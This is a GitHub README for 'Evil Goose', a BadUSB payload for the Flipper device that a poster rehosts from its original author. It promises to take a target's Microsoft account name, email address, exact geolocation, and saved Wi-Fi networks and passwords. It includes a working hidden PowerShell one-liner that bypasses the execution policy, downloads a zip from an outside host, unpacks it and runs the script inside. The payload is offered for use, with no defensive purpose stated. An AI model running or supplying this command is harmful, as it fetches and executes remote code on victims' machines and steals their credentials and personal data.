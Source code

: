 # Evil Goose

**A payload that hires a goose to hack your target in real time.**

---

## Description

With this payload, once executed, it will wait for a mouse movement to begin. Afterward, it will walk around your target's screen, pulling out personal information such as:

- **Full name** associated with their Microsoft account
- **Email address** associated with their Microsoft account
- **Exact geo-location**
- **Wi-Fi networks and passwords**

---

## Getting Started

### Dependencies

- **Windows 10** or **11**

---

### Executing the Program

1. Plug in your device.
2. After 10 seconds, the goose will begin its work on your target's system.

To execute, run the following PowerShell command:

```powershell
powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'https://jakoby.lol/1ae' -O "$D\hg.zip";Expand-Archive "$D\hg.zip" -Des $D -Force;. "$D\hg\main.ps1"
```

---

## Exiting the Payload

- This payload will automatically end after **2 minutes**.
- Alternatively, you can manually exit by pressing **Left Control + Right Control** at the same time.

---

## Disclaimer

This is a Flipper script from Jakoby’s **"Evil Goose"** project. Jakoby’s website is currently down, and his scripts rely on pulling files from it. To ensure you can still use the script, I’ve hosted the necessary files on my site. I'm sharing this here to keep the project accessible while his site is unavailable.

Please note that I'm providing this script for **accessibility purposes** and to keep the project alive during this downtime.

---

## Credits

This project was created by **I am Jakoby**. I am not taking credit for this work. You can find his original work on his GitHub: [I-Am-Jakoby](https://github.com/I-Am-Jakoby).

---

## Contributing

All contributors' names will be listed here.

**I am Jakoby.**

---

## Version History

- **0.1** - Initial Release

---

## Contact

For inquiries or suggestions, feel free to reach out.
